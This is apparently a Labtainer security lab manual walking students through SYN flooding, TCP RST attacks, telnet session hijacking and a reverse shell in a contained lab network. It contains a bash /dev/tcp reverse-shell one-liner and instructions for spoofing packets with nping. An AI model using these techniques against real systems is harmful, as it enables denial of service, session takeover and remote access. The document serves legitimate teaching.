




Vulnerabilities in TCP/IP
=================================

Overview
========

The learning objective of this lab is for students to gain first-hand experience on vulnerabilities, as well as on attacks against these vulnerabilities. Wise people learn from mistakes. In security education, we study mistakes that lead to software vulnerabilities. Studying mistakes from the past not only help students understand why systems are vulnerable, why a seemly-benign mistake can turn into a disaster, and why many security mechanisms are needed. 

Moreover, studying these vulnerabilities help students understand the challenges of network security and why many network security measures are needed. In this lab, students need to conduct several attacks on the TCP protocol, including the SYN flood attack, the TCP reset attack, and the TCP
session hijacking attack.


Lab Environment
===============

Once you have logged into your range account and accessed your Labtainer-VM, open a terminal window.

Navigate to the “labtainer-student” directory and start the lab using the command:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
$  labtainer tcpip
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-   Links to this lab manual will be displayed if you wish to view the prompt
    from within your VM

Getting Started
=====

Study the network Topology. 
**Figure 1: TCP/IP lab network topology**

Tools and Services
=====

- The nping utility (distributed with nmap) is available on the attacker system to send out network packets of different types and with different content. Use “man nping” to learn about that tool.

- To simplify your attacks, the Wireshark tool can be run from the server so that
you can better understand the structure of network traffic.

- The server runs telnet and ssh services.


Lab Tasks
=====
In this lab, students will conduct attacks on the TCP/IP protocols. They will use the nping tool in the attacks.

To simplify the “guess” of TCP sequence numbers and source port numbers, we assume that attackers are on the same physical network as the victims. You are provided with the
Wireshark tool on the server to represent the ability to sniff traffic on the network. The following is the list of attacks that need to be implemented.

```
client

172.25.0.3

attacker

172.25.0.4

server

172.25.0.2
```

SYN Flooding Attack
=====



SYN flood is a form of DoS attack in which attackers send many SYN requests to a victim’s TCP port, but the attackers have no intention to finish the 3-way handshake procedure.
Attackers either use spoofed IP address or do not continue the procedure. Through this attack, attackers can flood the victim’s queue that is used for half-opened connections, i.e. the connections that has finished SYN, SYN-ACK, but has not yet gotten a final ACK back. When this queue is full, the victim cannot take any more connection. 

Figure 2 illustrates the attack.

The size of the queue has a system-wide setting. In Linux, we can check the setting using the following command:
```
sudo sysctl -q net.ipv4.tcp_max_syn_backlog
```
We can use command "netstat -na" to check the usage of the queue, i.e., the number of half- opened connections associated with a listening port. The state for such connections is SYN-RECV. If the 3-way handshake is finished, the state of the connections will be ESTABLISHED.

In this task, you need to demonstrate the SYN flooding attack against the telnet protocol. Use the nping tool to conduct the attack, and then use Wireshark to capture the
attacking packets. To illustrate the mechanics of the attack, you will conduct the attack one packet at a time. Use the “-tcp”, “-flags syn” to set the SYN flag, “--source-ip rand” to pick a random source IP, “-c 1” to send one packet at a time to that IP address, and “-p 23” to select the telent protocol.” Execute this nping command several times, and run the "netstat -na" command on the server machine, and compare the results after sending each packet. Please also describe how you know whether the attack has potential to
succeed.

To make your attack easier to succeed, we will shrink the size of the backlog
queue to 5:
```
sudo sysctl -w net.ipv4.tcp_max_syn_backlog=5
```
Send five packets via nping and then try to telnet to the server via the user component. Report on your success.

SYN Cookie Countermeasure
=====

If your attack seems unsuccessful, one thing that you can investigate is whether the SYN cookie mechanism is turned on. SYN cookie is a defense mechanism to counter the 
SYN flooding attack. The mechanism will kick in if the machine detects that it is under the SYN flooding attack. You can use the sysctl command to turn on/off the SYN cookie mechanism:

```
sudo sysctl -a | grep cookie (Display the SYN cookie flag)

sudo sysctl -w net.ipv4.tcp_syncookies=0 (turn off SYN cookie)

sudo sysctl -w net.ipv4.tcp_syncookies=1 (turn on SYN cookie)
```

Please run your attacks with the SYN cookie mechanism on and off, and compare the results. Why does the SYN cookie can effectively protect the machine against the SYN flooding attack? How might the nping tool be used to create an actual attack (rather than sending one packet at a time?)

TCP RST Attacks on telnet and ssh Connections
=====

The TCP RST Attack can terminate an established TCP connection between two victims. For example, if there is an established telnet connection (TCP) between two users A and B, attackers can spoof a RST packet from A to B, breaking this existing connection. To succeed in this attack, attackers need to correctly construct the TCP RST packet. In this task, you need to launch an TCP RST attack to break an existing telnet connection between the client and the server. After that, try the same attack on an ssh connection.
Observe your results.

To simplify the lab, we assume that the attacker and the victim are on the same LAN, i.e., the attacker can observe the TCP traffic between the client and the server via
use of Wireshark on the server. Note: when you use Wireshark to observe the network traffic, you should be aware that when

Wireshark displays the TCP sequence number, by default, it displays the relative sequence number, which equals to the actual sequence number minus the initial sequence number. If you want to see the actual sequence number in a packet, you need to right click the TCP section of the Wireshark output, and select "Protocol Preference". In the popup window, uncheck the "Relative Sequence Number" option.

You will use packet spoofing to forge a reset packet. Use the nping tool to create a spoofed packet with the RST flag set. Note you will need to provide an appropriate sequence number and source port number.

TCP Session Hijacking
=====

The objective of the TCP Session Hijacking attack is to hijack an existing TCP connection (session) between two victims by injecting malicious contents into this session. If this connection is a telnet session, attackers can inject malicious commands (e.g. deleting an important file) into this session, causing the victims to execute the malicious commands. Figure 3 depicts how the attack works. In this task, you need to demonstrate how you can hijack a telnet session between two computers. Your goal is to get the telnet server to run a malicious command from you. For the simplicity of the task, we assume that the attacker and the victim are on the same LAN.

You will again use packet spoofing (nping) to perform this task. Use the –data option to send your payload. Your attacker home directory includes a “hexify.py” script that creates hex versions of ascii text. You will also want to provide the psh and ack flags, and ack the previous packet in your spoofed packet. Your goal is to use a spoofed packet to hijack a telnet session and delete the file on the server at 
```
/~/documents/delete-this.txt. 
```

Note that if you use your telnet session to delete that file, e.g., to observe the protocol in wireshark, then you must recreate that file so it can be deleted in a hijacked session.




Creating Reverse Shell using TCP Session Hijacking
=====

When attackers are able to inject a command to the victim’s machine using TCP session hijacking, they are not interested in running one simple command on the victim machine; they are interested in running many commands. Obviously, running these commands all through TCP session hijacking is inconvenient. What attackers want to achieve is to use the attack to set up a back door, so they can use this back door to conveniently continue to compromise the system.

A typical way to set up back doors is to run a reverse shell from the victim achine to give the attacker a shell on the victim machine. A reverse shell is a shell process
running on a remote machine, connecting back to the attacker’s machine. This gives an attacker a convenient way to access a remote machine once it has been compromised.

In the following, we show how we can set up a reverse shell if we can directly run a command on the victim’s machine (i.e. the server machine). In the TCP session hijacking attack, attackers cannot directly run a command on the victim’s machine, so their job is to run a reverse-shell command through the session hijacking attack. In this task, students need to demonstrate that they can achieve this goal.


(a) Use netcat to listen to connection


(b) Run the reverse shell


To have a bash shell on a remote machine connect back to the attacker’s machine, the attacker needs a process waiting for some connection on a given port. 

In this example, we will use netcat. This program allows us to specify a port number and can listen for a connection on that port. In Figure (a), netcat (nc for short) is used to listen for a connection on port 9090. 

In Figure (b), the /bin/bash command represents the command that would normally be executed on a compromised server.

This command has the following pieces:
```
 "/bin/bash -i": i stands for interactive, meaning that the shell must be interactive (must provide a shell prompt)

 "> /dev/tcp/172.25.0.4/9090": This causes the output (stdout) of the shell to be redirected to the tcp connection to 172.25.0.4’s port 9090. The output stdout is represented by file descriptor number 1.

 "0<&1": File descriptor 0 represents the standard input (stdin). This causes the stdin for the shell to be obtained from the tcp connection.

"2>&1": File descriptor 2 represents standard error stderr. This causes the error output to be redirected to the tcp connection.
```

In summary, "/bin/bash -i > /dev/tcp/172.25.0.4/9090 0<&1 2>&1" starts a bash shell, with its input coming from a tcp connection, and its standard and error outputs being
redirected to the same tcp connection. In Figure 4(a), when the bash shell command is executed on the server (172.25.0.2), it connects back to the netcat process started on 172.25.0.4. This is confirmed via the "Connection 172.25.0.2 accepted" message displayed by netcat.

The shell prompt obtained from the connection is now connected to the bash shell. This can be observed from the difference in the current working directory (printed via pwd). Before the connection was established, the pwd returned /home/ubuntu. Once netcat is connected to bash, pwd in the new shell returns /home/ubuntu/documents (directory corresponding to where /bin/bash is started from). We can also observe the host name displayed in the shell prompt is also changed from “attacker” to “server”. The output from netstat shows the established connection.

The description above shows how you can set up a reverse shell if you have the access to the target machine, which is the telnet server in our setup, but in this task, you do not have such an access. Your task is to launch an TCP session hijacking attack on an existing telnet session between a user and the target server. You need to inject your malicious command into the hijacked session, so you can get a reverse shell on the target server. For this, you will require two virtual terminals connected to the attacker machine (one to run netcat, the other to send your spoofed packet). Get an additional terminal from the Linux terminal window from which your ran the “start.py” command. From there type:

```
$ moreterm.py tcpip attacker
```

Lab Completion
=====
After finishing the lab, go to the terminal on your Linux system that was used to start the lab and type:
```
$ stoplab tcpip
```
